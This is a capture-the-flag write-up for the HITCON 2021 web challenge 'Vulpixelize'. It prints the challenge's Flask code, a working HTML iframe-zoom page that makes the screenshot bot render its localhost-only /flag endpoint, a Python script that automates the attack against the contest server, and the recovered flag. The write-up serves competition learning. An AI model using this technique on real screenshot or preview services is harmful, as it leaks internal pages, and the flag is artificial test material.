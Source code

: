 +++                        
title = "[Hitcon 2021 - web] Vulpixelize"                                  
tags = ["ctf", "ret2school", "HITCON", "tek", "web", "2021"]
date = "2022-01-02"
+++

# HITCON 2021 - Vulpixelize (232 points)

My solution for this challenge is maybe unintended and not very technical, but it works :)

---

We can send a URL that the bot will visit.  
It then takes a screenshot of the page, blurs it and returns us the result :  

![vulpixelize](https://raw.githubusercontent.com/ret2school/ctf/master/2021/hitcon/web/vulpixelize/img/vulpixelize.png)  

```py
@app.route('/submit', methods=['GET'])
def submit():
    path = 'static/images/%s.png' % uuid.uuid4().hex
    url  = request.args.get('url')
    if url:
        # secrity check
        if not url.startswith('http://') and not url.startswith('https://'):
            return message(msg='malformed url')

        # access url
        try:
            driver.get(url)
            data = driver.get_screenshot_as_png()
        except common.exceptions.WebDriverException as e:
            return message(msg=str(e))

        # save result
        img = Image.open(io.BytesIO(data))
        img = img.resize((64,64), resample=Image.BILINEAR)
        img = img.resize((1920,1080), Image.NEAREST)
        img.save(path)

        return message(msg=path)
    else:
        return message(msg="url not found :(")
```
  
There is a special endpoint at `/flag` that displays the flag only if we come from `127.0.0.1`, so only the bot can view the flag :  
```py
@app.route('/flag')
def flag():
    print(request.remote_addr)
    if request.remote_addr == '127.0.0.1':
        return message(FLAG)
    return message("allow only from local")
```
  
The idea is to redirect the bot to a page we control that contains an iframe which refers to the `/flag` endpoint, and zooms on parts of the flag to have large enough characters to bypass the blur.  
  
I used a combo of `div` with an `iframe` embedded in it to get only a part of the flag, and `transform`, `left`, `top` CSS properties to zoom on these parts.  
Here is the jinja template that does that :  
```html
<!DOCTYPE html>
<html>
    <head>
        <style>
#outerdiv {
    width: 1800px;
    height: 1000px;
    overflow: hidden;
    position: relative;
}

#inneriframe {
    position: absolute;
    width: 100px;
    height: 100px;
    zoom: 20;
    -moz-transform: scale(20);
    -moz-transform-origin: 0 0;
    -webkit-transform: scale(20);
    -webkit-transform-origin: 0 0;
    border: none;
    left: -{{idx}}px;
    top: -320px;
}
        </style>
    </head>
    <body>
        <div id="outerdiv">
            <iframe src="http://127.0.0.1:8000/flag#msg" id="inneriframe" scrolling=yes></iframe>
        </div>
    </body>
</html>
```
  
Each picture looks like this :  
![first part of flag](https://raw.githubusercontent.com/ret2school/ctf/master/2021/hitcon/web/vulpixelize/img/00.png)
  
The python script that automates the process (increment the `left` in the template and save the screenshot) :  
```py
from jinja2 import Template
from bs4 import BeautifulSoup

import requests
import os

HOST = "http://3.113.172.41:26478/"
# HOST = "http://0.0.0.0:8000/"

html = Template(open("./index.html.jinja2").read())

for idx in range(13):
    with open("./index.html", "w") as f:
        f.write(html.render(idx=450+90*idx))

    r = requests.get(HOST + "/submit?url=http%3A%2F%2FMON-IP%3AMON-PORT%2F")
    soup = BeautifulSoup(r.text, "html.parser")

    img = requests.get(HOST + soup.find(id="msg").a["href"])
    with open("img/{:02d}.png".format(idx), "wb") as f:
        f.write(img.content)

    print(idx)

os.system("bash -c 'convert img/{00..06}.png +append img/flag-0.png'")
os.system("bash -c 'convert img/{07..12}.png +append img/flag-1.png'")
```
  
The last two lines assemble all the images in 2 images that contains the flag :  
![flag 0](https://raw.githubusercontent.com/ret2school/ctf/master/2021/hitcon/web/vulpixelize/img/flag-0.png)
![flag 1](https://raw.githubusercontent.com/ret2school/ctf/master/2021/hitcon/web/vulpixelize/img/flag-1.png)
  
FLAG : `hitcon{1-1-4-1-6-1-e-9-f-9-4-c-7-3-e-4-9-7-a-7-5-d-4-6-6-c-6-3-3-7-f-4}`

